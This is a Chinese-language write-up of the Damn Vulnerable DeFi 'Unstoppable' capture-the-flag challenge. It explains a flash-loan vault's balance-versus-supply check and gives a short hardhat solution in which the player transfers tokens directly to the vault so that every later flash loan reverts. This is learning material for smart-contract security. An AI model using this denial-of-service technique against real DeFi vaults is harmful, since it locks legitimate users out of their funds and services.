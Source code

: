 ```yaml
---
title: Damn vulnerable defi Challenge1 unstoppable
date: 2023-02-16 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
thumbnail: /images/thumbs/unstoppable.png
---
```


![alt ""](/images/thumbs/unstoppable.png)

## Damn vulnerable defi CTFs 挑战 1.Unstoppable 详解

Damn vulnerable defi 是学习以太坊智能合约攻防的网站。具有闪贷、价格预言机、NFT、DEX、lending pool,智能合约钱包、和时间锁等特性。

### 如何开始

- 1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
- 2. 通过 yarn 安装
- 3. 在\*.challenge.js 中填写编码
- 4. 通过 hardhat 工具运行 test 脚本文件

### 挑战内容

需要通过交互使得闪贷合约停止工作

### Unstoppable 内容

Unstoppable 合约中主要有 3 部分内容组成:

- ERC20 token 合约 (DamnValuableToken.sol)
- Unstoppable 主合约(UnstoppableVault.Sol)
- 调用闪贷合约的调用合约(ReceiverUnstoppable.sol)

这里还需要用到 hardhat 的 test 合约功能,如果对这部分内容不是很了解的话可以先阅读下 hardhat 的相关文档[Testing contracts](https://hardhat.org/hardhat-runner/docs/guides/test-contracts)。
相关的命令行:

```shell
npx hardhat test TEST_FILE_ROUTER
```

这里和运行部署脚本有区别的地方是没有 run 命令需要注意下。

### 合约流程

合约的测试脚本中(unstoppable.challenge.js)包含了 3 个用户分别是部署者、发起攻击的用户、普通的调用闪贷的用户。同时也包含了 3 个合约分别是 token 合约、闪贷合约、普通调用闪贷业务的用户合约。

```javascript
unstoppable.challenge.js

//部署者、发起攻击的用户、普通的调用闪贷的用户
let deployer, player, someUser;
//token 合约、闪贷合约、普通调用闪贷业务的用户合约
let token, vault, receiverContract;
...
```

当 token 合约和闪贷合约部署完成之后，像闪贷合约的部署地址支付了固定数量的 token。

```javascript
await token.approve(vault.address, TOKENS_IN_VAULT);
await vault.deposit(TOKENS_IN_VAULT, deployer.address);
```

最后部署普通用户的合约，通过用户合约像借贷合约发起了一笔借贷的请求。用户部署的合约收到请求之后调用了借贷合约的 flashLoan 方法，在借贷合约中 flashLoan 会回调用户合约中的 onFlashLoan 方法。在回调完成之后需要像用户收回之前发出去的借贷 token 并按照条件收取一定的费用 fee。

### 代码问题点

```javascript
ReceiverUnstoppable.sol
/**
  * @inheritdoc IERC3156FlashLender
  */
function flashLoan(
    IERC3156FlashBorrower receiver,
    address _token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (amount == 0) revert InvalidAmount(0); // fail early
    if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
    uint256 balanceBefore = totalAssets();
    //问题代码的位置.
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
    uint256 fee = flashFee(_token, amount);
    // transfer tokens out + execute callback on receiver
    ERC20(_token).safeTransfer(address(receiver), amount);
    // callback must return magic value, otherwise assume it failed
    if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
        revert CallbackFailed();
    // pull amount + fee from receiver, then pay the fee to the recipient
    ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
    ERC20(_token).safeTransfer(feeRecipient, fee);
    return true;
}
```

balanceBefore 在代码中表示部署的合约地址中所包含的 token 数量，而 totalSupply 只有在 mint 的时候才会累加，具体的代码在：

```javascript
ERC20.sol
function _mint(address to, uint256 amount) internal virtual {
    totalSupply += amount;

    // Cannot overflow because the sum of all user
    // balances can't exceed the max uint256 value.
    unchecked {
        balanceOf[to] += amount;
    }

    emit Transfer(address(0), to, amount);
}
```

所以只需要让这 2 个值不相等的话请求就会 revert,通过分析我们利用 player 像合约直接发送一笔 token

### 解决方式

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```
